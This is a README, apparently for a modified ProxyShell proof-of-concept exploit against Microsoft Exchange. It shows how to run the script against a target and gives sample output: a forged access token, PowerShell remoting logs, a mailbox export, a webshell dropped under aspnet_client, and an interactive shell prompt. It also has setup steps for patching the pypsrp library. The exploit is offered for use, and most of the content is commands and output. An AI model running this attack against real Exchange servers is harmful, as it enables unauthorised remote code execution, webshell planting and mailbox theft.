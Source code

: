 # ProxyShell
ProxyShell 漏洞poc
## 改造ProxyShell poc

    usage: proxyshell.py -u url -e emai
    
    proxyshell_rce.py -u https://192.168.31.60 -e administrator@xxxx.com
    
    LegacyDN: /o=First Organization/ou=Exchange Administrative Group (FYDIBOHF23SPDLT)/cn=Recipients/cn=937c6ca77fe448969b4d5c8f5a5c55b3-Admin
    SID: S-1-5-21-484177469-2149344085-4186611703-500
    
    Token: VgEAVAdXaW5kb3dzQwBBCEtlcmJlcm9zTBZhZG1pbmlzdHJhdG9yQGN1YmUuY29tVSxTLTEtNS0yMS00ODQxNzc0NjktMjE0OTM0NDA4NS00MTg2NjExNzAzLTUwMEcBAAAABwAAAAxTLTEtNS0zMi01NDRFAAAAAA==
    
    PS> dropshell
    
    8000
    
    127.0.0.1 - - [08/Sep/2021 10:27:51] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:52] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:53] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:54] "POST /wsman HTTP/1.1" 200 -
    
    OUTPUT:
    
    Mailbox Import Export-Administrator-15
    
    ERROR:
    
    
    127.0.0.1 - - [08/Sep/2021 10:27:54] "POST /wsman HTTP/1.1" 200 -
    
    127.0.0.1 - - [08/Sep/2021 10:27:55] "POST /wsman HTTP/1.1" 200 -
    
    OUTPUT:
    
    xxxx.com/Users/Administrator\MailboxExport2
    
    ERROR:
    
    
    Shell URL: https://192.168.31.60/aspnet_client/igejolgyhzkywvxz.aspx
    
    Testing shell 0
    
    Testing shell 1
    
    Shell>




需要安装
pip3 install pypsrp

并使用wsman.py替换掉site-packages/pypsrp/wsman.py

cp wsman.py venv/lib/*/site-packages/pypsrp/wsman.py
Reference:

- 1.https://github.com/ktecv2000/ProxyShell

- 2.https://raw.githubusercontent.com/Ridter/proxyshell_payload

- 3.https://github.com/dmaasland/proxyshell-poc